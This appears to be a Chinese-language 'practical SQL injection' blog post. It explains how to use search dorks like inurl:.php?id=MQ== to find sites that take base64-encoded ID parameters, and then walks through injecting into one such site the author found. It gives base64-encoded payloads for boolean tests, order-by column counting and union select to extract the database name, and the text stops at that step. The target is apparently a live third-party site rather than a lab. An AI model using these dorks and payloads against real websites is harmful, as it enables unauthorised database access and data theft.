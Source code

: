 # 原创
：  实战 | SQL注入

# 实战 | SQL注入

### **一、资产搜集**

我们都知道sql注入的传参有些是明文的，有些是经过编码或者加密的，所以我们搜索的时候不要仅限于**inurl:.php?id=1**，可以额外的尝试搜搜1的base64编码值MQ==，即可以搜索**inurl:.php?id=MQ==**，或者搜索1的md5加密值，即可以搜索**inrul:.php?id=a0b923820dcc509a**。这样子搜索完，我们可测试的范围就扩大了。此处我就是利用**inurl:.php?id=MQ==**搜索到了一处存在sql注入的网站。

### **二、开始sql注入常规流程**

（1）判断字符型还是数字型

```
?id=MQ== (原始值为1)

?id=MeKAmQ== (原始值为1')
```

<br/>  

<br/> 从这两者的反应可以判断出是数字型。<br/> （2）判断是否存在sql注入漏洞

```

?id=MSBhbmQgMT0x (原始值1 and 1=1) 有内容

?id=MSBhbmQgMT0y (原始值1 and 1=2) 没有内容，页面下方空白
```

<br/> 可以判断出此处可能存在sql注入。<br/> （3）判断列数

```

?id=MSBvcmRlciBieSAz (原始值1 order by 3) 页面内容正常输出

?id=MSBvcmRlciBieSA0 (原始值1 order by 4) 报错
```

<br/>  

<br/> 可以判断列数为3。<br/> （4）判断显错位。

```

?id=LTEgdW5pb24gc2VsZWN0IDEsMiwz (原始值-1 union select 1,2,3)
```

<br/> 显错位为2和3。<br/> （5）在显错位2的位置上尝试获取当前数据库

```
?id=LTEgdW5pb24gc2VsZWN0IDEsZGF0YWJhc2UoKSwz (原始值-1 union select 1,database(),3)
```
